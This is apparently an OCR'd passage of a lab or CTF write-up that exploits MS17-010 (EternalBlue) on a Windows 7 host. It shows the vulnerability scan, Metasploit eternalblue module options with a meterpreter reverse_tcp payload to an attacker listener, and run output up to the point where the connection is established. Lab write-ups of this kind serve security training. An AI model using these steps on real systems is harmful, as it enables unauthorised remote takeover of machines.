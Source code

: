 ```
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
```

The previous result shows that the system is vulnerable to a well-known exploit ``` ms17-010``` and that today it is still possible to find companies that do not perform maintenance on their services.

Another way to check is by making use of a ** metasploit, ** helper module, let's see it:

```
msf6 auxiliary(scanner/smb/smb_ms17_010) > run

[+] 10.10.122.242:445     - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.122.242:445     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

-----

### Getting reverse shell:

We configure the necessary parameters indicated by this exploit, we run and we become ** NT AUTHORITY \ SYSTEM **

> If you have doubts about how to find the appropriate exploit in metasploit, simply execute the following command ```search ms17```, it will give you several results and it will depend on seeing the statistics of the exploit to choose which one to use.

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > options
   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS         10.10.114.85     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.

Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.9.102.237     yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port

Exploit target:
   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs
   
msf6 exploit(windows/smb/ms17_010_eternalblue) > run

[*] Started reverse TCP handler on 10.9.102.237:4444
[*] 10.10.114.85:445  - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.114.85:445  - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.114.85:445  - Scanned 1 of 1 hosts (100% complete)
[*] 10.10.114.85:445  - Connecting to target for exploitation.
[+] 10.10.114.85:445  - Connection established for exploitation.
[+] 10.10.114.85:445  - Target OS selected valid for OS indicated by SMB reply
```